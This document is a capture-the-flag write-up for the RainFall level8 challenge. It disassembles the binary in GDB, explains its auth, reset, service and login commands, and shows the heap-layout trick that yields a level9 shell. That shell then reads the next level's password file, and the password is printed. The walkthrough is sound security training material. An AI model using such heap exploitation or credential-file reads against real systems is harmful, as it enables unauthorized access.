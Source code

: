 # level8

## exploring the binary
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
phantom society
(nil), (nil)
123 456
(nil), (nil)
```
It appears that the binary continuously accepts two strings from standard input within an infinite loop, suggesting that there might be a specific combination of these strings that grants access to the next level.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	push   %edi
   0x08048568 <+4>:	push   %esi
   0x08048569 <+5>:	and    $0xfffffff0,%esp
   0x0804856c <+8>:	sub    $0xa0,%esp
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    0x8049ab0,%ecx
   0x0804857b <+23>:	mov    0x8049aac,%edx
   0x08048581 <+29>:	mov    $0x8048810,%eax
   0x08048586 <+34>:	mov    %ecx,0x8(%esp)
   0x0804858a <+38>:	mov    %edx,0x4(%esp)
   0x0804858e <+42>:	mov    %eax,(%esp)
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    0x8049a80,%eax
   0x0804859b <+55>:	mov    %eax,0x8(%esp)
   0x0804859f <+59>:	movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:	lea    0x20(%esp),%eax
   0x080485ab <+71>:	mov    %eax,(%esp)
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   %eax,%eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:	seta   %dl
   0x080485d4 <+112>:	setb   %al
   0x080485d7 <+115>:	mov    %edx,%ecx
   0x080485d9 <+117>:	sub    %al,%cl
   0x080485db <+119>:	mov    %ecx,%eax
   0x080485dd <+121>:	movsbl %al,%eax
   0x080485e0 <+124>:	test   %eax,%eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	movl   $0x4,(%esp)
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    %eax,0x8049aac
   0x080485f5 <+145>:	mov    0x8049aac,%eax
   0x080485fa <+150>:	movl   $0x0,(%eax)
   0x08048600 <+156>:	lea    0x20(%esp),%eax
   0x08048604 <+160>:	add    $0x5,%eax
   0x08048607 <+163>:	movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:	mov    %eax,%edx
   0x08048611 <+173>:	mov    $0x0,%eax
   0x08048616 <+178>:	mov    0x1c(%esp),%ecx
   0x0804861a <+182>:	mov    %edx,%edi
   0x0804861c <+184>:	repnz scas %es:(%edi),%al
   0x0804861e <+186>:	mov    %ecx,%eax
   0x08048620 <+188>:	not    %eax
   0x08048622 <+190>:	sub    $0x1,%eax
   0x08048625 <+193>:	cmp    $0x1e,%eax
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    0x20(%esp),%eax
   0x0804862e <+202>:	lea    0x5(%eax),%edx
   0x08048631 <+205>:	mov    0x8049aac,%eax
   0x08048636 <+210>:	mov    %edx,0x4(%esp)
   0x0804863a <+214>:	mov    %eax,(%esp)
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    0x20(%esp),%eax
   0x08048646 <+226>:	mov    %eax,%edx
   0x08048648 <+228>:	mov    $0x804881f,%eax
   0x0804864d <+233>:	mov    $0x5,%ecx
   0x08048652 <+238>:	mov    %edx,%esi
   0x08048654 <+240>:	mov    %eax,%edi
   0x08048656 <+242>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:	seta   %dl
   0x0804865b <+247>:	setb   %al
   0x0804865e <+250>:	mov    %edx,%ecx
   0x08048660 <+252>:	sub    %al,%cl
   0x08048662 <+254>:	mov    %ecx,%eax
   0x08048664 <+256>:	movsbl %al,%eax
   0x08048667 <+259>:	test   %eax,%eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    0x8049aac,%eax
   0x08048670 <+268>:	mov    %eax,(%esp)
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    0x20(%esp),%eax
   0x0804867c <+280>:	mov    %eax,%edx
   0x0804867e <+282>:	mov    $0x8048825,%eax
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    %edx,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:	seta   %dl
   0x08048691 <+301>:	setb   %al
   0x08048694 <+304>:	mov    %edx,%ecx
   0x08048696 <+306>:	sub    %al,%cl
   0x08048698 <+308>:	mov    %ecx,%eax
   0x0804869a <+310>:	movsbl %al,%eax
   0x0804869d <+313>:	test   %eax,%eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    0x20(%esp),%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
   0x080486b5 <+337>:	lea    0x20(%esp),%eax
   0x080486b9 <+341>:	mov    %eax,%edx
   0x080486bb <+343>:	mov    $0x804882d,%eax
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:	seta   %dl
   0x080486ce <+362>:	setb   %al
   0x080486d1 <+365>:	mov    %edx,%ecx
   0x080486d3 <+367>:	sub    %al,%cl
   0x080486d5 <+369>:	mov    %ecx,%eax
   0x080486d7 <+371>:	movsbl %al,%eax
   0x080486da <+374>:	test   %eax,%eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    0x8049aac,%eax
   0x080486e7 <+387>:	mov    0x20(%eax),%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    0x8049aa0,%eax
   0x08048704 <+416>:	mov    %eax,%edx
   0x08048706 <+418>:	mov    $0x804883b,%eax
   0x0804870b <+423>:	mov    %edx,0xc(%esp)
   0x0804870f <+427>:	movl   $0xa,0x8(%esp)
   0x08048717 <+435>:	movl   $0x1,0x4(%esp)
   0x0804871f <+443>:	mov    %eax,(%esp)
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    $0x0,%eax
   0x08048732 <+462>:	lea    -0x8(%ebp),%esp
   0x08048735 <+465>:	pop    %esi
   0x08048736 <+466>:	pop    %edi
   0x08048737 <+467>:	pop    %ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```
We observe that <code>main()</code> employs various functions, ranging from <code>fgets()</code> to <code>system()</code>. After the user inputs data, the buffer read is compared to four different strings - the correct combination of data evokes <code>/bin/bash</code> with <code>system()</code>. Each of these reference strings is loaded into <code>eax</code> (and consequently a different register), allowing us to inspect its contents:

```shell
(gdb) x/s 0x8048819
0x8048819:	 "auth "
(gdb) x/s 0x804881f
0x804881f:	 "reset"
(gdb) x/s 0x8048825
0x8048825:	 "service"
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
We observe that two of the strings <code>auth</code> and <code>service</code> actually represent global variables, which undergo modification during runtime.
```shell
All defined variables:

Non-debugging symbols:
0x08048808  _fp_hw
0x0804880c  _IO_stdin_used
0x08048948  __FRAME_END__
0x0804994c  __CTOR_LIST__
0x0804994c  __init_array_end
0x0804994c  __init_array_start
0x08049950  __CTOR_END__
0x08049954  __DTOR_LIST__
0x08049958  __DTOR_END__
0x0804995c  __JCR_END__
0x0804995c  __JCR_LIST__
0x08049960  _DYNAMIC
0x08049a2c  _GLOBAL_OFFSET_TABLE_
0x08049a60  __data_start
0x08049a60  data_start
0x08049a64  __dso_handle
0x08049a80  stdin@@GLIBC_2.0
0x08049aa0  stdout@@GLIBC_2.0
0x08049aa4  completed.6159
0x08049aa8  dtor_idx.6161
0x08049aac  auth
0x08049ab0  service
```
## 4 commands

- <code>auth</code>: Allocates 4 bytes for the <code>auth</code> variable and uses <code>strcpy</code> to copy up to 32 bytes (0x20) into it.
- <code>reset</code>: Frees the memory allocated for the auth variable.
- <code>service</code>: Uses <code>strdup</code> to duplicate the remaining input and stores it in the <code>service</code> variable.
- <code>login</code>: Verifies if the 32nd character in <code>auth</code> is set.

It looks simple - we just enter "auth" at the beginning and then just fill the buffer.

## exploit
``` shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ffffffffffffffffffffffff
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
